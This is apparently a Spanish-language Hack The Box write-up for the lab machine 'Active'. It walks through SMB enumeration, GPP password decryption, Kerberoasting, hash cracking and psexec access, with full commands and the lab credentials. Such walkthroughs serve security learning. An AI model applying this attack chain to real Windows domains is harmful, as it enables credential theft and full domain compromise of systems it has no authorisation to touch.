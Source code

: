 ```yaml
---
layout:   post
title:    "Write Up Active"
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Windows,Kerberoasting,gpp-decrypt,SMB,Active-Directory,Write-Up-Machine,Starting-Point,OSCP,OSEP]
---
```

![list](/assets/img/active/active.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.10.100 -oG allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 10.10.10.100 -oN target -Pn
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Estando abierto los puertos 139 y 445 imediatamente lo que debemos hacer es tratar de 

explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros.

![list](/assets/img/active/Kali-2022-09-16-23-10-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L 10.10.10.100 -N
```

{:.note}
Listamos los shares.

Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.

```bash
crackmapexec smb 10.10.10.100
```

{:.note}
El doninio es `active.htb`,lo agrgamos al `/etc/hosts`.

Los siguiente es movernos por el recurso smb o crearnos una montura pero en este caso 

como vemos que hay muchos recursos pero sin credenciales solo tenemos acceso al share 

replication el cual podemos listar o movernos dentro de el con el parametro -R recursivamente 

para ver todo el contenido del mismo o con -r para movernos como directorio sea como sea 

en este caso lo que deberemos bucar es un archivo llamado groups.xml que contenie una 

credecial que deberemos crackear.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-31-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como se puede observar tiene el dominio y el useraurio `active.htb\SVC_TGS` mas un hash .

Con la herramienta `gpp-decrypt` pdemos obtener la contraseña de la siguiente forma.

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

{:.note}
La contraseña es `GPPstillStandingStrong2k18`.

***
## Explotacion

Con cracmapexec verificamos si las credeciales son validas ademas podemos listar de una ves a 

que shres tenemos accesos,tenemos acceso a NETLOGON, Replication, SYSVOL y Users .

El unico que tiene algo interesante es el de Users el cual moviendo atraves del recurso 

podremos encontrar la flag user.txt o tambien podriamos decargarla a nuestra maquina con el comando.

```bash
smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --dounload Users/SVC_TGS/Desktop/user.txt
```

{:.note}
Un cat a user.txt y se puede ver la contraseña.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

***
## Escalacion de privilegios 

Exite varias herramentas que enumeran usauarios y grupos de smb y rcp, podemos usar 

`lookupsid.py` y `rcpclient` pero ene ste caso utilizaremos `rcpclient`.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Encontramos otros tres usuarior pero nada a destacar.

Por lo anterior tenemos el dominio + un usuario + una contraseña  podemos probar un ataque [Kerberosting]

[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html

```bash
GetUserSPNs.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```
![list](/assets/img/active/Parrot-SO3-2022-08-18-23-02-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Debermos crackear el hash con `John The Ripper`.

```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```

{:.note}
La contraseña es`Ticketmaster1968`.

Con cracmapexec verificamos si las credeciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u "Administrator" -p "Ticketmaster1968"
```

![list](/assets/img/active/Kali-2022-09-16-23-36-01.png){:.lead width="800" height="100" loading="lazy"}

Con la herramienta `psexec.py` nos conectamos a la maquina victima con el siguiente comando.

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

Para este punto solo debemos buscar las flags aunque la de user.txt ya la pudimos ver antes.

![list](/assets/img/active/Kali-2022-09-16-23-41-01.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el ecritorio del usuario no privilegiado.

![list](/assets/img/active/Kali-2022-09-16-23-41-58.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Active de Hack The Box. 🎉
```
{:.centered}
***
Back to [Beginner Track Active Directory](2022-09-21-Beginner-Track-AD.md){:.heading.flip-title}
{:.read-more}
